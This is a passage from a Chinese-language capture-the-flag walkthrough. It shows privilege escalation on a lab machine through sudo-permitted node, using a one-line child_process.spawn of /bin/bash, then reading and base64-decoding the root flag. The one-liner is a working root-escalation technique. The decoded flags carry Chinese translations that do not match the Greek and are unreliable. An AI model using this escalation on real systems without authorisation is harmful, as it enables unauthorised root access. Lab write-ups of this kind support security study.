 ![image-20211104104353472](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104104353472.png)

发现用户imera在没有root用户密码的权限下，只执行sudo，**可以执行node和npm命令**

搜集发现了一段代码（调用node执行生成一个子进程，子进程运行/bin/bash）

```
sudo node -e 'child_process.spawn("/bin/bash",{stdio:[0,1,2]})'   
```

```
id
```

![image-20211104104738393](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104104738393.png)

发现已经**成功提权**为root用户

```
cd root
```

```
pwd
```

```
ls
```

```
cat root.txt
```

![image-20211104104834470](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104104834470.png)

```
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```

---

## 彩蛋

CyberChef:

>user.txt
>
>byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
>
>-->o chronos pernaei file mou.
>
>译-->我们签署了谅解备忘录。

>root.txt
>
>YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
>
>-->apopse siopi mazeuoume oneira.
>
>译-->我很高兴见到你。













